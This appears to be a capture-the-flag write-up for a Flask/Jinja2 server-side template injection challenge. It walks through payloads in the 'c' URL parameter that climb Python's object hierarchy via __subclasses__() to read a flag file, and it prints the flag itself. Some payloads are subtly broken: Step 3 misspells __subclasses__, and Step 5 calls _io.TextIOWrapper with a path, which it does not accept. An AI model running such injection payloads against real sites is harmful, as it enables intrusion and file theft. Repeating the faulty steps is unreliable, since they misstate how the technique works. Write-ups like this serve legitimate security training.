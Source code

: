Basic SSTI Challenge Write-Up

Challenge Overview
Name: SSTI Challenge
Category: Web Exploitation
Difficulty: Medium
Description: This challenge tests your ability to exploit a Server-Side Template Injection (SSTI) vulnerability in a Flask-based web application. The objective is to retrieve the hidden flag from the server by leveraging Python’s object hierarchy.

Objectives
Exploit the SSTI vulnerability to retrieve the flag from /var/www/html/flag.txt.

Tools Required
Web browser
Basic understanding of Jinja2 and Python object traversal

Solution Steps
Step 1: Explore the Application
Access the web application through the provided URL: 
http://localhost:8080
You will see a landing page that displays the message: 
"Hello, send something inside the param 'c'!"

Step 2: Test for Template Injection
Verify that the application is vulnerable to SSTI by passing a basic payload in the c parameter:
http://localhost:8080/?c={{7*7}}
If successful, you will see the result of the arithmetic operation (49) rendered on the page.

Step 3: Investigate Python Object Traversal
Use Python’s __class__ and __subclasses__ methods to explore the object hierarchy:
http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses()}}
This will display a list of subclasses of Python’s object class, allowing you to find classes related to file handling.

Step 4: Identify the File Handling Class
Locate the file handler class (e.g., <class '_io.TextIOWrapper'>) within the object hierarchy. The exact index may vary by environment; for example:
http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses__()[92]}}
This will print the class that allows file access.

Step 5: Read the Flag File
Use the file handler class to read the flag file located at /var/www/html/flag.txt:
http://localhost:8080/?c={{'abc'.__class__.__base__.__subclasses__()[92]('/var/www/html/flag.txt').read()}}
If successful, the content of the flag file will be displayed.

Flag
flag{SepalAI_SSTI_Challenge_R3m0t3_C0de_3x3c}

Notes
Challenge Purpose: This challenge demonstrates the risks associated with unsanitized template rendering in Flask applications.
Mitigation: Use proper input sanitization and restrict access to dangerous methods like __class__ and __subclasses__.

